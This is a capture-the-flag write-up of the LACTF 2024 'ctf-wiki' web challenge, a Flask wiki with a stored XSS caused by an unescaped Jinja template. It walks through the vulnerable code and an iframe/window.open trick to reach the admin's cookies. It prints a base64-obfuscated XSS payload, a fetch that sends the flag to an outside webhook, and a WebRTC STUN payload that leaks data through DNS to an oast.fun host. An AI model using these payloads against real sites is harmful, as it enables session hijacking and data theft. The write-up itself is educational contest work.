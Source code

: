 ```yaml
---
title: LACTF 2024 - Writeup (ctf-wiki)
date: 2024-03-01 01:58:35
tags:
---
```


# **ctf-wiki | 38 solves**
I am such a huge fan of CTF players that I decided to create a wiki with some of my favorites! Hopefully, none of them hack it. ;D

[ctf-wiki.chall.lac.tf](ctf-wiki.chall.lac.tf)

## **Description**
We are given a url, an Admin bot link, and the source code for the main page. The website is a Flask application that lets you add a decription of a CTF player. Once we fill in the fields, we get back a note created with a specific UUID that can later be referenced.
![](./image.png)


Looking at the source code, we see two main endpoints: `/edit`, and `/view`. However if when we are logged in, and we try to visit `/view`, we are instantly redirected to `/edit`. We can see this implemented in the source:

```py
@app.get("/view/<pid>")
def page(pid):
    if session.get("username") is not None and session.get("password") is not None:
        return redirect("/edit/{}".format(pid))
```

Which explicitly redirects us to the `edit` endpoint. 

Looking around the source code more, we can see where the flag is stored.
```py
@app.post("/flag")
def flag():
    adminpw = os.environ.get("ADMINPW") or "admin"
    if session.get("password") != adminpw:
        return redirect("/login?error=" + urllib.parse.quote_plus("Not the admin."))

    flag = os.environ.get("FLAG") or "lactf{test-flag}"
    return flag, 200
```

For this, we need to make a post request to `/flag`, with an account using the correct admin password. Since we have an Admin Bot for this challenge as well, its clear now that we need some sort of XSS to make the admin request this flag for us, and then we can exfiltrate it to a server we control.

And looking at the template for `view.html`, we can see exactly where this XSS is:
```html
<div class="ctfer-info">{{ description | safe }}</div>
```

Which in Jinja2 templates will not sanitize the input placed there, meaning we can put arbitrary HTML and JS in the description. 
Finally, we can see a CSP is enforced on the pages with a valid session.

```py
@app.after_request
def apply_csp(response):
    if session.get("username") is not None and session.get("password") is not None:
        response.headers[
            "Content-Security-Policy"
        ] = "default-src 'self'; img-src *; font-src https://fonts.gstatic.com https://fonts.googleapis.com; style-src 'self' https://fonts.googleapis.com"
    return response

```
The `default-src=self` will be a fallback for CSP directives that were not specified in this list, so when exfiltrating we will additionally need to take this into consideration.

## **Solution**
The base idea of the challenge will utilize the fact that if the ctf-wiki page is embedded in an iframe on an attacker controlled page, that frame will not send session cookies. Meaning if we can get the Admin to visit our page, and embed the `/view` endpoint, it will not send the admin session. However, that iframe can create a window using `window.open`, and the window it creates will send the cookies! Additionally since these are the same origin, the payload in `/view` will be able to access the window object of the cookie page, and therefore execute JS!

Now from here we can make the fetch request, but we need to somehow send this to our domain. 

### XSS on window with cookies
To get a simple POC, we can first create a note that creates a new window, then executes some JS inside that window. I also created this helper script to change the payload on my page quickly.

```py
import requests
from base64 import b64encode

cookies = {
    'session': 'eyJwYXNzd29yZCI6IjEyMzQiLCJ1c2VybmFtZSI6ImFoaCJ9.ZdLx0w.E2vT2k0HzBa_iXbhdqHgGiR-oxg',
}

payload = f"""
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.alert(1);
""".strip()

data = {
    'id': 'd74c05271ee7f058e376451a59086650',
    'name': 'asdf',
    'image': 'asdf',
    'team': 'asdf',
    'specialty': 'asdf',
    'website': 'asdf',
    'description': f'<img src=x onerror="eval(atob(\'{b64encode(payload.encode()).decode()}\'))">',
}

response = requests.post(
    'https://ctf-wiki.chall.lac.tf/edit/d74c05271ee7f058e376451a59086650',
    cookies=cookies,
    data=data,
)
```

Then we can host the `/view` endpoint for this page on our own domain in an iframe.
```html
<iframe id="thing" src="https://ctf-wiki.chall.lac.tf/view/d74c05271ee7f058e376451a59086650"></iframe>
```

When we visit our site now when logged in on ctf-wiki, (after enabling popups) we can see a page opened and an alert fired.
![](./image-1.png)
Whats important is that the alert is on the new page, and additionally, we can see that the new page will be logged in.
![](./image-3.png)

Now we can try adjusting our payload to make a fetch to `/flag`, and send it to a webhook.
```js
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.onload = () => {
    w.fetch('https://ctf-wiki.chall.lac.tf/flag', {method: "POST"}).then(r => r.text()).then(r => {
        fetch("https://eo4r52sc1021bl8.m.pipedream.net?flag=" + btoa(r));
    });
}
```

Note here we are using `w.fetch` to fetch the `/flag` endpoint, but just fetch to send it back to us. This is since the CSP will prevent using `w.fetch` to make a request outside the `https://ctf-wiki.chall.lac.tf/` origin, however the cookieless page does not have that CSP restriction.

Finally, we send this to the Admin Bot, get our callback, and base64 decode to get the flag!
![](./image-4.png)

---
## Flag

```
lactf{k4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3}
```


## Additional Notes
During the CTF, I honestly don't know why I didn't try this. I think I accidently tried `w.fetch` when exfiltrating (instead of just fetch), got the `connect-uri` CSP issue, and then just resorted to the option I knew on how to solve that which was using WebRTC. 

A reference for that payload is this very well written writeup for SekaiCTF GolfJail which used that same technique.
[https://blog.antoniusblock.net/posts/golfjail/](https://blog.antoniusblock.net/posts/golfjail/)

You can send the same request, but modifying the data to the request response, and collect the response in the DNS query.
This is the payload script I used during the CTF.
```py
innerpayload = """
window.onload = () => {
    fetch('https://ctf-wiki.chall.lac.tf/flag', {method: "POST"}).then(r => r.text()).then(r => {
        pc=new RTCPeerConnection({"iceServers":[{"urls":["stun:"+r.split("").map(x=>x.charCodeAt(0).toString(16)).join("").substr(0, 62)+"."+"zlamrbukykhbdngfjbuh29ofd2v5k39qo.oast.fun"]}]});
        pc.createOffer({offerToReceiveAudio:1}).then(o=>pc.setLocalDescription(o));
    })
}
""".strip()

payload = f"""
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.eval(atob('{b64encode(innerpayload.encode()).decode()}'))
""".strip()
```

And you will get a response like this, which afterwards you can hex decode the subdomain to determine the flag!
![](./image-5.png)

But yeah there fetch from the cookieless CSPless page is alot more straightforward lol. In the words of the author himself:
![](./image-6.png)

